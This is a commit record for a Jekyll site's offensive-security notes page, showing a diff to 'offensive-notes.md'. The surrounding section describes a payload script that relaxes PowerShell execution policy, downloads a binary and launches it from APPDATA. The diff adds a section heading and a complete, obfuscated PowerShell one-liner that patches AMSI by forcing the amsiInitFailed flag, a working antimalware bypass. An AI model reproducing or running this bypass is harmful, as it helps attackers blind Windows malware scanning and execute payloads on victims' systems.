

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from offensive-notes.md, in a window 1280 px wide and 900 px high, scrolled down 2279 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update offensive-notes.md

````diff
--- a/offensive-notes.md
+++ b/offensive-notes.md
@@ -126,7 +126,7 @@ $parameters=@("arg1", "arg2")
 [namespace.Class]::Main($parameters)
 ```
 
-
+### Load remote .NET assembly, AMSI patch, APPDATA execution
 
 ```powershell
 First, the payload script would change PowerShell’s running configuration so the current user would be allowed to execute PowerShell scripts with no restrictions, using the following command:
@@ -150,6 +150,10 @@ Finally, the payload script executes the downloaded binary (which we will refer
 
 Clear-Host
 Start-Process ("$env:APPDATA\$ProcName")
+
+The content of AMSI-Bypass is listed below:
+
+S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 
 ```
 
````
